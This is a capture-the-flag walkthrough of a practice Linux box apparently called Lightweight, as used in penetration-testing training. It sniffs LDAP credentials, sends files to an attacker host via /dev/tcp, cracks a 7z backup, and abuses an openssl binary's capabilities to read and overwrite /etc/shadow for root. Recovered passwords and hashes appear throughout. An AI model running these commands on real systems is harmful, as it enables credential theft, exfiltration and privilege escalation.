



## PART 1 : Initial Recon

```console
nmap --min-rate 700 -p- -v 10.10.10.119
```
```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
389/tcp open  ldap
```
```console
nmap -oN lightweight.nmap -p22,80,389 -sC -sV -v 10.10.10.119
```
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Issuer: commonName=lightweight.htb
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-09T13:32:51
| Not valid after:  2019-06-09T13:32:51
| MD5:   0e61 1374 e591 83bd fd4a ee1a f448 547c
|_SHA-1: 8e10 be17 d435 e99d 3f93 9f40 c5d9 433c 47dd 532f
|_ssl-date: TLS randomness does not represent time
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.119 (default: __port 80__)
   - Landing Page: 
   
     

   - __/info.php__:
     ```html
     <h1>Info</h1>
     <p><br><br>As part of our SDLC, we need to validate a new proposed configuration for our front end servers with a penetration test.</p>
     <p></p>
     <p>Real pages have been removed and a fictionary content has been updated to the site. Any functionality to be tested has been integrated.</p>
     <p></p>
     <p>This server is protected against some kinds of threats, for instance, bruteforcing. If you try to bruteforce some of the exposed services you may be banned up to 5 minutes.</p>
     <p></p>
     <p>If you get banned it's your fault, so please do not reset the box and let other people do their work while you think a different approach.</p>
     <p></p>
     <p>A list of banned IP is avaiable <a href="status.php">here</a>. You may or may not be able to view it while you are banned.</p>
     <p></p>
     <p>If you like to get in the box, please go to the <a href="user.php">user</a> page.</p>
     ```
   
   - __/status.php__
     ```html
     <h1>List of banned IPs</h1>
     <p><i>You may or may not see this page when you are banned. </i><br><br>
     10.10.13.22 timeout 295<br>
     10.10.14.30 timeout 170<br>
     <p><i>This page has been generated at 2019/05/09 17:09:17. Data is refreshed every minute.</i></p>
     ```
   
   - __/user.php__
     ```html
     <h1>Your account</h1>
     <p><br><br>If you did not read the info page, please go <a href="info.php">there</a> the and read it carefully.</p>
     <p></p>
     <p>This server lets you get in with ssh. Your IP (10.10.13.21) is automatically added as userid and password within a minute of your first http page request. We strongly suggest you to change your password as soon as you get in the box.</p>
     <p></p>
     <p>If you need to reset your account for whatever reason, please click <a href="reset.php">here</a> and wait (up to) a minute. Your account will be deleted and added again. Any file in your home directory will be deleted too.</p>
     ```


   __NOTES__:
   - The homepage has links to __*info*__, __*status*__, __*user*__
   - __/info.php__ just gives a warning on bruteforcing
   - __/status.php__ takes significantly longer to load than the other pages
   - __/user.php__ creates an SSH account with your local IP as credentials
   - My local IP is __10.10.13.21__

2. Login to `ssh` as your local IP
   ```console
   ssh -l 10.10.13.21 10.10.10.119
   # 10.10.13.21@10.10.10.119's password: 10.10.13.21
   ```
   - SSH (10.10.13.21) terminal:
     ```console
     uname -nop
     # lightweight.htb x86_64 GNU/Linux

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # ldapuser1:x:1000:1000::/home/ldapuser1:/bin/bash
     # ldapuser2:x:1001:1001::/home/ldapuser2:/bin/bash
     # ...
     # 10.10.13.21:x:1011:1011::/home/10.10.13.21:/bin/bash
     # ...
     ```
   __NOTES__:
   - There are two users before root -- __*ldapuser1*__ and __*ldapuser2*__

3. Explore the LDAP service:
   ```console
   ldapsearch -b 'dc=lightweight,dc=htb' -h 10.10.10.119 -p 389 -v -x
   # ...
   # # search result
   # search: 2
   # result: 0 Success
   #
   # # numResponses: 9
   # # numEntries: 8

   ldapsearch -b 'ou=People,dc=lightweight,dc=htb' -h 10.10.10.119 -p 389 -v -x
   # # ldapuser1, People, lightweight.htb
   # dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
   # uid: ldapuser1
   # cn: ldapuser1
   # sn: ldapuser1
   # mail: ldapuser1@lightweight.htb
   # objectClass: person
   # objectClass: organizationalPerson
   # objectClass: inetOrgPerson
   # objectClass: posixAccount
   # objectClass: top
   # objectClass: shadowAccount
   # userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2Roai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv
   # shadowLastChange: 17691
   # shadowMin: 0
   # shadowMax: 99999
   # shadowWarning: 7
   # loginShell: /bin/bash
   # uidNumber: 1000
   # gidNumber: 1000
   # homeDirectory: /home/ldapuser1
   #
   # # ldapuser2, People, lightweight.htb
   # dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
   # uid: ldapuser2
   # cn: ldapuser2
   # sn: ldapuser2
   # mail: ldapuser2@lightweight.htb
   # objectClass: person
   # objectClass: organizationalPerson
   # objectClass: inetOrgPerson
   # objectClass: posixAccount
   # objectClass: top
   # objectClass: shadowAccount
   # userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdmszYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x
   # shadowLastChange: 17691
   # shadowMin: 0
   # shadowMax: 99999
   # shadowWarning: 7
   # loginShell: /bin/bash
   # uidNumber: 1001
   # gidNumber: 1001
   # homeDirectory: /home/ldapuser2
   #
   # # search result
   # search: 2
   # result: 0 Success
   #
   # # numResponses: 4
   # # numEntries: 3

   ldapsearch -b "" -h 10.10.10.113 -p 389 -LLL supportedSASLMechanisms -s base -x
   # dn:
   ```
   __NOTES__:
   - The service allows __anonymous__ logins
   - __*userPassword*__ field has a hash encoded in base64
   - The decoded hash (SHA512CRYPT) doesn't seem to be crackable using `hashcat`
   - The service doesn't allow __*SASL Authentication*__

4. Check why __*/status.php*__ takes a while to load
   1. Inside the SSH shell:
      ```console
      ifconfig
      # ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
      #         inet 10.10.10.119  netmask 255.255.255.0  broadcast 10.10.10.255
      # ...
      # lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
      #         inet 127.0.0.1  netmask 255.0.0.0
      # ...

      tcpdump -i lo -nn -s0 -vv -w tcpdump.pcap 'src 10.10.10.119'
      # tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
      # Got 0
      ```
   2. Local terminal:
      ```console
      curl http://10.10.10.119/status.php

      nc -lvp 4444 > tcpdump.pcap
      ```
   3. SSH (10.10.13.21) terminal:
      ```console
      # ^C11 packets captured
      # 22 packets received by filter
      # 0 packets dropped by kernel

      cat tcpdump.pcap > /dev/tcp/10.10.13.21/4444
      ```
   4. Open __*tcpdump.pcap*__ file in __Wireshark__:
      - LDAP __*bindRequest*__:

        

      - LDAP __*bindResponse*__:
        
        

      __NOTES__:
      - __*/status.php*__ runs an authentication sequence in LDAP
      - The [bind operation](https://ldap.com/the-ldap-bind-operation/) is what handles authentication in LDAP
      - __*simple*__ authentication was used so the password should be in __*plaintext*__
      - The authentication passed was for __*ldapuser2*__
      - The authentication password (__8bc8251332abe1d7f105d3e53ad39ac2__) seems to be an MD5 hash
      - The MD5 hash doesn't seem to be crackable using `hashcat`

---

## PART 3 : Change User (10.10.13.21 -> ldapuser2)

1. SSH (10.10.13.21) terminal:
   ```console
   su ldapuser2
   # Password: 8bc8251332abe1d7f105d3e53ad39ac2
   ```
   __NOTES__:
   - Using __8bc8251332abe1d7f105d3e53ad39ac2__ as an SSH password doesn't work
   - SSH credentials are __different__ from UNIX credentials

2. SSH (ldapuser2) terminal:
   ```console
   cd ~
   ls -lah
   # drwx------.  5 ldapuser2 ldapuser2  209 May  9 19:02 .
   # drwxr-xr-x. 20 root      root      4.0K May  9 19:12 ..
   # -rw-r--r--.  1 root      root      3.4K Jun 14  2018 backup.7z
   # -rw-------.  1 ldapuser2 ldapuser2    0 Jun 21  2018 .bash_history
   # -rw-r--r--.  1 ldapuser2 ldapuser2   18 Apr 11  2018 .bash_logout
   # -rw-r--r--.  1 ldapuser2 ldapuser2  193 Apr 11  2018 .bash_profile
   # -rw-r--r--.  1 ldapuser2 ldapuser2  246 Jun 15  2018 .bashrc
   # drwxrwxr-x.  3 ldapuser2 ldapuser2   18 Jun 11  2018 .cache
   # drwxrwxr-x.  3 ldapuser2 ldapuser2   18 Jun 11  2018 .config
   # -rw-rw-r--.  1 ldapuser2 ldapuser2 1.5M Jun 13  2018 OpenLDAP-Admin-Guide.pdf
   # -rw-rw-r--.  1 ldapuser2 ldapuser2 372K Jun 13  2018 OpenLdap.pdf
   # -rw-r--r--.  1 root      root        33 Jun 15  2018 user.txt

   cat user.txt
   # 8a866d3bb7e13a57aaeb110297f48026
   ```

---

## PART 4 : Change User (ldapuser2 -> ldapuser1)

1. Export __*backup.7z*__ to local machine:
   - Local terminal:
     ```console
     nc -lvp 4444 > backup.7z
     ```

   - SSH (ldapuser2) terminal:
     ```console
     cat backup.7z > /dev/tcp/10.10.13.21/4444
     ```

2. Extract contents of __*backup.7z*__:
   
   

   - Extract password hash using [7z2hashcat](https://github.com/philsmd/7z2hashcat):
     ```console
     git clone https://github.com/philsmd/7z2hashcat.git

     cd 7z2hashcat

     ./7z2hashcat.pl ../backup.7z > ../backup_7z_hash
     ```
     ```
     $7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800843918$3152$3140$1ed4a64a2e9a8bc76c59d8160d3bc3bbfd995ce02cf430ea41949ff4d745f6bf3ed238e9f06e98da3446dda53df0abf11902852e4b2a4e32e0b0f12b33af40d351b2140d6266db1a3d66e1c82fa9d516556ec893ba6841f052618ad210593b9975307b98db7e853e3ebfbef6856039647a6ad33a63f5b268fc003c39eba04484beff73264ff8c8fdb8e3bcc94ee0df4feacbba388536663f8feb8b1454890752fba4a7fba484cfd6d1d050aa6233478a2c425566d60630d985d15dae09c7485f92ea271d2087ac837b6f9101465cf4a62b0ee225245871655b1aa16526a2a5d61ab942d1418900fec9da5771da34cb8bf56ec7f05a75cf26a0202a7065b8b020769d244d95e3166fdb9f4557324e090307e91bc7adc7f56f5215ffd1463c7403c5725cbf006b46882439d629a14d4a1e25fafb202a1cfbac837eabf002f7ebfc87f20c67ff847c393a54e5724c29840016fa76be0dfbb73a79fb2ec3f0e9c7b246525acad50d76c3fe31d75004e5bc3e93ce79aab2ddbc91c7ce9666503e3ab8dcaf269d4554baee5276c516d23fabf41610ff4f666ad5cf9dc6dc3bed7e1c0a2767f018ca3cd15a35a1fbefce479b649a5db00263b55c470fcb049327e7aeb849359a74a2444de7a3c025b3a9dbfd597e0cdf642c340982b650d69f2c48b1e6b823b460734f3c6f3c1e3917b6780b0efda60ce5b7d03d55ff1fa0a161b9aa876b7498c8104f28ca6c6c629d6ca47c18e54bb237b62bd813d1cd47fdcd87b9597ddf14aec439185f8b892dedb4bcae949dbab74d72cd45dda311e0f38f219a1887bede5ec6697a8ab9f5cec687e18fd6ef2223015a3d717830f0aff0664e66ed51d185e965b55ce702135eb57f5efca251238f8e66f828c3d28d961dd09f244e735419273700e5ce97b4fa9ee3d5b45f8b81c9d5af1436e70f75dc9657354807bcadcdcf1e4f9432b29d55c21b59de59c933d0d96b0f3b89f871c14691faa63db3bdde5ca78f2c470839d49690d82f5c8334d9a857af449b1cd4c140b1087f41d09fb46baf5f0e7228716f992635e99861621d0e99d9d649ad863d99adab4ba060ef19b18a3dc2c64815401867c852ea17b01a5c551249cef2a234a1d0a91be047e06678a35ebe7256cca9791590bbfc37ee200d173f1c87a585003920ff52fc38f74da83c18284dbf171eda45fb0cba8d3ed09fc9d9e951ff95ae8b3326ec4d2cf6eaaca2890464a424f79718f044b6b7903c0f512744332f615f81e7a965df81f78ae950b98df910660b4c85bbee5b6b9b4eb061868530d1dee292296ac18e0f3081048834129583b2a7fa88573039ec01657642450688464a2e9db9bf9483d105875a30d855fe6c657a81ce5242a2a99887bdc1c786b57916b03a0d3cdddec1a0a8f94e6d9926ebf534a5b28fc4a4e16956941a5eb8718dbca21d9464a4a970b77a5967483f1373c4dc04967b16164d9d9ef6824acfcb63e20913234712b7abbc82f562aea65ef39d2bef6608d887cd5ff67966967a568a3dc21f28ad393d2ab3ca85ff7b87eebd97f80d878e616121bb94020c6fb80f3780c41dba3b4c4c3fceeba9748f4d9a47d3454b491b95bafddefd04afc8b1922e4a87534539d391fb948b59fcc1f5072c0af3c29afbbec26e2dfd7fc6d4e3a19fdb37cd49342bc7ec7526b6594295b341fe6a1a2a5f399eadade6dcb84d87fd3b00a9b79ef6c11cc01f5958a43fbdd2602eb10b4ddaa327ac043ee01c470d3ed2519488e80183043f41968f32283577cb5615de2416fcb9a74b1ce282614f818bc5adef0cb1dd6eb98d74a8d8214ec2a361b246bad656b487e8dce40f4fef808ad818c06ef5a972e2614e51e6b040f491a92ff39d55408cf92ccc0f797f27d8c1f7c5004b5613a660b6f306ba447bb99bbe5a408d00eb2dd4127351097f204e9d277a5eb97330a3d3409c7e097a18639542b1c9efe35eda1b12c1346bc8816a0430f5668a38735567ba09580504de831bb639ab1de7d2afcf2e470cbded2960f3300aca88446ccf0fa27715666e4eb45fe5d6a7a46c414d61e5fbbfd384c53e8bac6805083164332c2bd79d05c4d10436377a35b8402e186efd8959131437840c7b010d7ce74423e08bea80639414dbd0c290ced5bb1adf597b7a76141cc15d3d3054bcc4e9df234be4187725576645e86e0cfb9b7769a8cdefbec5b08d4feda04e8fd437631e181ac89deec9c54105a32776a2cb8f068177aabc375359e5b38ae4eb8cebf0668f5d104a5c5929c890c7d1de0694063943b844cd8f274b6f6bcbe004b3fe54e52905200e5b024a02498a1f767758e910516c7c295a552802e47d699cdd98adea07bd4f53f745342b990067339b9a0a2ab0c6ea2c0210961b96c7c22b2daaa322de7fddc91527d118c45d4a2a08a2c37a85a7b665ab4ba625b983019085b32096c78ed8a760c83fbf6c5811b7b16681b0a61513686d6810c72d0f1c30b792b1948a478ad660a4036fcd5dbfc57b352a22a4ed27daf1f8455aa9d81a5b8b28287fea4342c14bd42cf3159c830d322d166958a6e233ca7b9dd2914fce1f2621f95998e83df69bee22f70ae086f242690631fcd33730bb2e5ad64fa7d0b7b93931957311eeaa9b45382d020e85856e456712da51a9c220226d2a177e758ea6b7631647cc8419d04fb6b5dab40a841ba9d5660a550ac817af679f3c1a266b9c657372988ab38cfb6971695c59b5454fdf7ca1170066b99c06c985fb8564eed4caade040ef9320d5198041a2bfc62b4b21eb080520628ed3c8c8a2ffd8e0073b24c2059815da86f1b682622e714124950ff26ad79bf31897331fc23cd075fb1f4822046273b0898bebc1ba23110d74ed459c0c0f12488f0b51310f59c9dae537cdda5a75d48a4ac544531fba92fd6dbaa018cb3cc69ee4b9859f3fa1e022d4850bfd995afa9d70273789084f5955a30df3cf7de7f45c2601fe1ee0adbc89dbbd1aa23badcdfcc9d95e2bfd6f102c92bd1fb9648f446a98ab16302049f6862a0da1c758d0f0a7763e9ac0cdda94bed47f98103f8e068cd12bc83bb9a2bd2be19593d64a2f1034cdad6fbee498488a5b37efebcfe667393cf91c1a4d00082ea8463d57e691a0fb3b2394090dab00bb00d27b418b0db0171da74b6d314b78d951ec5ec87eff81800a0f41bb5eb01d5d116183667e1762c4a1d19631c05a61e1be0f05e5188da27df1a0d8697119fbe29693d776ce50c7896a3bc52888ebdcec056a4d7e675af2ea8de25f52e0470e053dd6614b3548ad0cd282a76d397b7e2fedc98d975003bd29feebc53ee5b412088599ac203cb8b6be1f3a0414511391b3495d175b3dfda7990753255ff0f13eb86ce97b5c6925aa31868523c325548720179c69e0e8df8407f5e87f263acd024cc5c4f5a75ef7a6fc1a3b650257fca20aa00674f35a07dac72471bbb500152b51dfe1743b797ad61110aa76b9fe69c0a02506ba4a6fc0b4a202efb9d88dfba38e5b5352046022cc17b57bdb40153db6b97e2f344d2c4598c0d021044eeb01423f6f6ade5702e10b63782fedddbaeba1dd9f9725eb3f85584fce2319b24851d7ec3ba2c2774741683b383ec97aadb7c912d655b6e5b147c33bb1856623b8ca08f092c0677d56e1dde99aa31ab30a654c57828536a120b4e4835ca6c7b5a2243bddfb9a00750521c74654a281cb12c806437030cd577907a797dc63a3959d47b68119a32a229899be06b7979c14b2c98e75667b8c5d30f0dfedd9553ba894ad9acda62f7f607bb35c080c3a440108ac0ce45f1873c5873488f2901790b08cb4928932a1c479d89ded5f6ce9f16c297e9dcc33c6b882b26c53b7a4f2b390367e36e384c1eb9805c0471aad4f77496e8f4fd447448dd59536629a645d04956fc30bcc686718e8d4d7cfc9ecbef3745af038de55826d328b7bad4a2eb7a10faf09c0618fd90d1941e8e3274bcd6eb2d8bed430ebfe6e8682b60390d79161f3a349c73de552d40f7421e5c4b4de80feb3998eb4ce6ecaef9bd2768e8be6534cd12ac163e70d3ed23963801c04770610c91f1ffcf4cbdf2a733f51e6fd596c855c0b905822a3838a82ea2d0e51dd442c451d05c6aa1b0099883db543927c0cc4016e27bb1b17fe863ae0c18458edbccdd6b15f0b73c3dc8c672c1bbbd81f290e9bb5291192143945d58757f64eceebd88e467d48b54a25cee7ed75263a4bb5d5597b9b5b75b6c254f81871f18246d2d91f664a0f49c1f67940d792d225272e713259f3135e5c286e081b1e2331f9217de1c0c9109d7a898458be85a4c130ea6e8c0db4dc5dbf77da5045f7da647c66e5af5676bb15221d5152da551a9390fda92e3539fde7afbd04e2e710ef28b5d5e50f2fdac106c9a18ef02414fb466f50f52b6e88e336ffe4fa929d9548630f3d7fb7d50ea590b2e3bdc3a88cf9d7f6b30f07d28ddf28c15c5371eb$4218$03
     ```

   - Crack __*backup_7z_hash*__:
     ```console
     hashcat --force -m 11600 backup_7z_hash /usr/share/wordlists/rockyou.txt
     ```
     ```
     $7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800843918$315...:delete
     ```

   - Examine contents of __*backup.7z*__
     - __*status.php*__
       ```PHP
       ...
       <?php
       $username = 'ldapuser1';
       $password = 'f3ca9d298a553da117442deeb6fa932d';
       $ldapconfig['host'] = 'lightweight.htb';
       $ldapconfig['port'] = '389';
       $ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
       //$ldapconfig['usersdn'] = 'cn=users';
       $ds=ldap_connect($ldapconfig['host'], $ldapconfig['port']);
       ldap_set_option($ds, LDAP_OPT_PROTOCOL_VERSION, 3);
       ldap_set_option($ds, LDAP_OPT_REFERRALS, 0);
       ldap_set_option($ds, LDAP_OPT_NETWORK_TIMEOUT, 10);

       $dn="uid=ldapuser1,ou=People,dc=lightweight,dc=htb";

       if ($bind=ldap_bind($ds, $dn, $password)) {
         echo("<p><i>You may or may not see this page when you are banned. </i><br><br>");
       } else {
         echo("Unable to bind to server.</br>");
         echo("msg:'".ldap_error($ds)."'</br>".ldap_errno($ds)."");
         if ($bind=ldap_bind($ds)) {
           $filter = "(cn=*)";
           if (!($search=@ldap_search($ds, $ldapconfig['basedn'], $filter))) {
             echo("Unable to search ldap server<br>");
             echo("msg:'".ldap_error($ds)."'</br>");
           } else {
             $number_returned = ldap_count_entries($ds,$search);
             $info = ldap_get_entries($ds, $search);
             echo "The number of entries returned is ". $number_returned."<p>";
             for ($i=0; $i<$info["count"]; $i++) {
               var_dump($info[$i]);
             }
           }
         } else {
           echo("Unable to bind anonymously<br>");
           echo("msg:".ldap_error($ds)."<br>");
         }
       }
       ?>

       <?
       include("banned.txt")
       ?>
       ...
       ```
   __NOTES__:
   - The other __*.php*__ files just seem to be regular source codes
   - __*status.php*__ now tries to authenticate __ldapuser1__

3. Switch to __ldapuser1__:
   ```console
   su ldapuser1
   # Password: f3ca9d298a553da117442deeb6fa932d

   cd ~
   ```

---

## PART 5 : Privilege Escalation (ldapuser1 -> root)

1. SSH (ldapuser1) terminal:
   ```console
   ls -lah
   # drwx------.  4 ldapuser1 ldapuser1  181 Jun 15  2018 .
   # drwxr-xr-x. 21 root      root      4.0K May  9 20:10 ..
   # -rw-------.  1 ldapuser1 ldapuser1    0 Jun 21  2018 .bash_history
   # -rw-r--r--.  1 ldapuser1 ldapuser1   18 Apr 11  2018 .bash_logout
   # -rw-r--r--.  1 ldapuser1 ldapuser1  193 Apr 11  2018 .bash_profile
   # -rw-r--r--.  1 ldapuser1 ldapuser1  246 Jun 15  2018 .bashrc
   # drwxrwxr-x.  3 ldapuser1 ldapuser1   18 Jun 11  2018 .cache
   # -rw-rw-r--.  1 ldapuser1 ldapuser1 9.5K Jun 15  2018 capture.pcap
   # drwxrwxr-x.  3 ldapuser1 ldapuser1   18 Jun 11  2018 .config
   # -rw-rw-r--.  1 ldapuser1 ldapuser1  646 Jun 15  2018 ldapTLS.php
   # -rwxr-xr-x.  1 ldapuser1 ldapuser1 543K Jun 13  2018 openssl
   # -rwxr-xr-x.  1 ldapuser1 ldapuser1 921K Jun 13  2018 tcpdump

   getcap ~/*
   # /home/ldapuser1/openssl =ep
   # /home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
   ```
   __NOTES__:
   - __*capture.pcap*__ is a tcpdump file with ldapuser2's credentials
   - __*ldapTLS.php*__ is an ldap authentication script for ldapuser1
   - `openssl` and `tcpdump` doesn't have an SUID bit but they have [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html)
   - `openssl` has an empty capability set (__*=ep*__)
     ```
     Note that one can assign empty capability sets to a program file, and
     thus it is possible to create a set-user-ID-root program that changes
     the effective and saved set-user-ID of the process that executes the
     program to 0, but confers no capabilities to that process.
     ```

2. Exploit `openssl`:
   1. Set-up an `openssl` server:
      ```console
      ~/openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
      # ...
      # Country Name (2 letter code) [XX]:
      # State or Province Name (full name) []:
      # Locality Name (eg, city) [Default City]:
      # Organization Name (eg, company) [Default Company Ltd]:
      # Organizational Unit Name (eg, section) []:
      # Common Name (eg, your name or your server's hostname) []:
      # Email Address []:

      cd /

      ~/openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 8888 -HTTP
      # Using default temp DH parameters
      # ACCEPT
      ```
   2. Try reading files in another SSH terminal:
      ```console
      ssh -l 10.10.13.21 10.10.10.119
      # 10.10.13.21@10.10.10.119's password: 10.10.13.21

      su ldapuser1
      # Password: f3ca9d298a553da117442deeb6fa932d

      curl -k https://127.0.0.1:8888/etc/shadow
      # root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.:17711:0:99999:7:::
      # ...
      # ldapuser1:$6$OZfv1n9v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49cMFueNZNOoI6A1.:17691:365:99999:7:::
      # ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
      ```
      __NOTE__:
      - All the files in the system are now readable
   3. Create new password hash for __root__
      ```
      HASH TYPE : SHA-512 / crypt(3) / $6$
      INPUT     : password
      SALT      : eVOz8tJs
      ROUNDS    : 5000
      --------------------------
      OUTPUT    : $6$eVOz8tJs$myEBoSww6zQFJjHlmrt.XN/OLwuvwMFCwZDO1x.lZhCyzjWFDjw6i6ERmiKfbDm0F.KYvQaMYHgCwTdKDzmc/.
      ```
   4. Create a new __*shadow*__ file:
      ```console
      vim /tmp/.etc_shadow
      ```
      ```
      root:$6$eVOz8tJs$myEBoSww6zQFJjHlmrt.XN/OLwuvwMFCwZDO1x.lZhCyzjWFDjw6i6ERmiKfbDm0F.KYvQaMYHgCwTdKDzmc/.:17711:0:99999:7:::
      bin:*:17632:0:99999:7:::
      daemon:*:17632:0:99999:7:::
      adm:*:17632:0:99999:7:::
      lp:*:17632:0:99999:7:::
      sync:*:17632:0:99999:7:::
      shutdown:*:17632:0:99999:7:::
      halt:*:17632:0:99999:7:::
      mail:*:17632:0:99999:7:::
      operator:*:17632:0:99999:7:::
      games:*:17632:0:99999:7:::
      ftp:*:17632:0:99999:7:::
      nobody:*:17632:0:99999:7:::
      systemd-network:!!:17689::::::
      dbus:!!:17689::::::
      polkitd:!!:17689::::::
      apache:!!:17689::::::
      libstoragemgmt:!!:17689::::::
      abrt:!!:17689::::::
      rpc:!!:17689:0:99999:7:::
      sshd:!!:17689::::::
      postfix:!!:17689::::::
      ntp:!!:17689::::::
      chrony:!!:17689::::::
      tcpdump:!!:17689::::::
      ldap:!!:17691::::::
      saslauth:!!:17691::::::
      ldapuser1:$6$OZfv1n9v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49cMFueNZNOoI6A1.:17691:365:99999:7:::
      ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
      10.10.14.2:clJFBL7EDs1H6:17851:0:99999:7:::
      10.10.12.145:cohvDH7us8ZQ6:18026:0:99999:7:::
      10.10.12.29:jrqeUQ5O.nc/6:18026:0:99999:7:::
      10.10.13.21:ux7Et3/RH9Izs:18026:0:99999:7:::
      ```
      ```console
      :wq
      ```
   5. Update the __*/etc/shadow*__ file:
      ```console
      ~/openssl smime -encrypt -aes256 -in /tmp/.etc_shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem

      ~/openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow

      curl -k https://127.0.0.1/etc/shadow
      # root:$6$eVOz8tJs$myEBoSww6zQFJjHlmrt.XN/OLwuvwMFCwZDO1x.lZhCyzjWFDjw6i6ERmiKfbDm0F.KYvQaMYHgCwTdKDzmc/.:17711:0:99999:7:::
      # ...
      # ldapuser1:$6$OZfv1n9v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49cMFueNZNOoI6A1.:17691:365:99999:7:::
      # ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
      ```
      __NOTE__:
      - The __root__ password hash has been updated.
   6. Change User (ldapuser1 -> root):
      ```console
      su root 
      # Password: password

      id
      # uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

      cat /root/root.txt
      # f1d4e309c5a6b3fffff74a8f4b2135fa
      ```
